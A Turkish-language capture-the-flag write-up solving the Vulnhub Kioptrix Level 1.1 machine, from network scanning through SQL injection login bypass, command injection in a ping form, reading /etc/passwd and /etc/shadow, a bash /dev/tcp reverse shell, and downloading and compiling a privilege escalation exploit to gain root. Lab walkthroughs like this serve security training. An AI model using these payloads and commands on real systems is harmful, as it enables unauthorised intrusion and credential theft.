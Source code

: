 Arkadaşlar merhaba;

Bu yazımda vulnhub.com üzerinde yayınlanmış olan Kioptrix1.1#2 makinasının çözümünü anlatmaya çalışacağım.

###### Linkler : ######
	
http://www.kioptrix.com
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

###### Çözüm : ######

İlk olarak benim kullandığım VMware’da Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.

    $ ifconfig
![IP Adresi Bulma](/Kioptrix1.1-2/pics/1.png "ifconfig")

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum. 

	$ netdiscover -i eth0 -r 192.168.1.0/24
![Scope Tarama](/Kioptrix1.1-2/pics/2.png "netdiscover")

Ve gördüğümüz gibi ip adresim geldi😊 ip adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.
	
	$ nmap -sS -sV 192.168.1.22
![Port Tarama](/Kioptrix1.1-2/pics/3.png "nmap")

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan http servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum. 

![Http Servisi](/Kioptrix1.1-2/pics/4.png "Http Servisi")

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek 

	SELECT * FROM users WHERE username='' AND password=''

Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,
	
	1’ or ‘1’=’1

Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:


	SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'

Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.
![Ping Panel](/Kioptrix1.1-2/pics/5.png "Ping Panel")

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.
![Ping Try](/Kioptrix1.1-2/pics/6.png "Ping Try")

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.
    
    $whoami
![whoami](/Kioptrix1.1-2/pics/7.png "whoami")

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.

![etc](/Kioptrix1.1-2/pics/8.png "etc")
![etc](/Kioptrix1.1-2/pics/9.png "etc")

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.
Ben de Reverse Shell almayı deniyorum. 
İlk önce netcat ile 443 portumu dinlemeye açıyorum.

    $ nc -nvlp 443
    
![netcat](/Kioptrix1.1-2/pics/10.png "netcat")

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.

    $ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin ip’si ve port da dinlemeye açtığım port.)
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊

![Reverse Shell](/Kioptrix1.1-2/pics/11.png "Reverse Shell")

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.

    $  cat /etc/*-release
    $  cat /proc/version
![Version](/Kioptrix1.1-2/pics/12.png "Version")

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.

    $ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
    $ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
    $ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
![wget](/Kioptrix1.1-2/pics/13.png "wget")

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )

    $ gcc 9542.c 
    $ ./a.out
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.

    $ whoami
![root](/Kioptrix1.1-2/pics/14.png "root")

